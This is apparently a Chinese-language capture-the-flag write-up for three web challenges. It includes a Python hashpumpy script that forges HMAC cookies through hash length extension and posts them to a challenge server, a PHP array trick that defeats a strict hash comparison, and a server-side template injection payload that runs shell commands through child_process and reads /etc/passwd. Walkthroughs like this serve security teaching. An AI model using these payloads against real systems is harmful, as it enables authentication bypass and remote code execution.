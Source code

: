 
## WEB

### penetrate in

此题考点为哈希长度扩展攻击，可以利用hashpumpy来解决。其中secret的长度未知，需要暴力破解一下。

脚本：

``` python
#!/usr/bin/python 
#coding=utf-8

import hashpumpy
import requests

url = "http://202.121.178.201:8081/index.php"
data = {"username" : "admin", "password" : ""}
headers = {"Cookie" : ""}

for i in range(5, 100):
    print "secret length: "  + str(i)
    res = hashpumpy.hashpump("be9fcfa876db5f4184e1635ce6561de7", "|admin|admin", "a", i)
    headers["Cookie"] = "hmac=" + res[0]
    data["password"] = res[1][7:]
    print headers
    print data

    r = requests.post(url, data=data, headers=headers)
    if 'flag' in r.text:
        print r.text
        exit()
```

### Shatter Sha512!

此题hash结果的相等判断处使用的是严格的`===`，这就想到PHP的一个trick，hash函数不能处理`Array`类型的变量，首先会把`Array`类型的变量转换为常量字符串`"Array"`。

将变量设置为数组类型即可绕过：

	http://addr/?x[]=1&y[]=2

### Super Security Blog

此题采用的node.js的express框架为后端，考虑存在SSTI漏洞，在post新文章时构造内容`{{7*7}}`，可以得到输出49，说明存在漏洞。

构造post文章的内容为

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```
验证可以执行shell命令，进而拿到flag。

---